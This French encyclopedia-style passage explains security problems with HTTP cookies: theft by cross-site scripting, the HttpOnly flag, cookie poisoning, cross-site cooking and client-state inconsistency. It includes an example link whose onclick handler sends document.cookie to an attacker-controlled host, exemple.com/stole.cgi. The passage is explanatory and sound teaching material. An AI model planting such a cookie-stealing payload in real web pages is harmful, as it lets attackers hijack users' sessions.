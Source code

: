 Par exemple, un attaquant fonctionnant sur le domaine exemple.com peut publier un commentaire contenant le lien suivant pointant vers un blog populaire qu'il ne contrôle pas autrement :
<a href="#" onclick="window.location = 'http://exemple.com/stole.cgi?text=' + escape(document.cookie); return false;">Cliquez ici !</a>
Quand un autre utilisateur clique sur ce lien, le navigateur exécute la partie de code de l'attribut onclick, ainsi il remplace la chaîne de caractère document.cookie par la liste des cookies de l'utilisateur qui sont actifs pour cette page. Par conséquent, cette liste de cookies est envoyée au serveur exemple.com, et l'attaquant est donc capable de collecter les cookies de cet utilisateur.
Ce type d'attaque est difficile à détecter du côté utilisateur parce que le script provient du même domaine qui a mis en place le cookie, et l'opération d'envoi des valeurs semble être autorisée par ce domaine. Il est considéré que c'est la responsabilité des administrateurs opérant ce type de sites de mettre en place des restrictions empêchant la publication de code malveillant.
Les cookies ne sont pas directement visibles aux programmes du côté client comme le JavaScript s'ils ont été envoyés avec le drapeau HttpOnly. Du point de vue du serveur, la seule différence est que dans la ligne de l'en-tête Set-Cookie y est ajouté un nouveau champ contenant la chaîne de caractères HttpOnly :
Set-Cookie: RMID=732423sdfs73242; expires=Fri, 31-Dec-2010 23:59:59 GMT; path=/; domain=.exemple.net; HttpOnly
Quand le navigateur reçoit un tel cookie, il est censé l'utiliser normalement dans l'échange HTTP suivant, mais sans le rendre visible aux scripts exécutés du côté client. Le drapeau HttpOnly ne fait partie d'aucune spécification technique officielle, et n'est pas implémenté dans tous les navigateurs. Notez qu'il n'y a actuellement aucun moyen de prévenir la lecture et l'écriture des cookies de session par la méthode XMLHTTPRequest.


### Modification de cookie
Dès que les cookies ont besoin d'être stockés et renvoyés inchangés au serveur, un attaquant peut modifier la valeur des cookies avant leur renvoi au serveur. Par exemple, si un cookie contient la valeur totale que l'utilisateur doit payer pour les articles mis dans le panier du magasin, en changeant cette valeur le serveur est exposé au risque de faire payer moins l'attaquant que le prix de départ. Le procédé de modifier la valeur des cookies est appelé cookie poisoning et peut être utilisé après un vol de cookie pour rendre l'attaque persistante.

La plupart des sites web, cependant, stockent seulement un identifiant de session — un numéro unique généré aléatoirement utilisé pour identifier l'utilisateur de la session — dans le cookie lui-même, alors que tout le reste de l'information est stocké sur le serveur. Dans ce cas, ce problème est en grande partie résolu.


### Manipulation de cookie entre sites web
Chaque site est supposé avoir ses propres cookies, donc un site ne devrait pas être capable de modifier ou créer des cookies associés à un autre site. Une faille de sécurité d'un navigateur web peut permettre à des sites malveillants d'enfreindre cette règle. L'exploitation d'une telle faille est couramment appelée cross-site cooking. Le but de telles attaques peut être le vol de l'identifiant de session.
Les utilisateurs devraient utiliser les versions les plus récentes des navigateurs web dans lesquels ces vulnérabilités sont pratiquement éliminées.


### État contradictoire entre le client et le serveur
L'utilisation des cookies peut générer une contradiction entre l'état du client et l'état stocké dans le cookie. Si l'utilisateur acquiert un cookie et clique sur le bouton « Retour » du navigateur, l'état du navigateur n'est généralement pas le même qu'avant cette acquisition. Par exemple, si le panier d'une boutique en ligne est réalisé en utilisant les cookies, le contenu du panier ne peut pas changer quand l'utilisateur revient dans l'historique du navigateur : si l'utilisateur presse sur un bouton pour ajouter un article dans son panier et clique sur le bouton « Retour », l'article reste dans celui-ci. Cela n'est peut-être pas l'intention de l'utilisateur, qui veut certainement annuler l'ajout de l'article. Cela peut mener à un manque de fiabilité, de la confusion, et des bugs. Les développeurs web doivent donc être conscients de ce problème et mettre en œuvre des mesures visant à gérer des situations comme celle-ci.
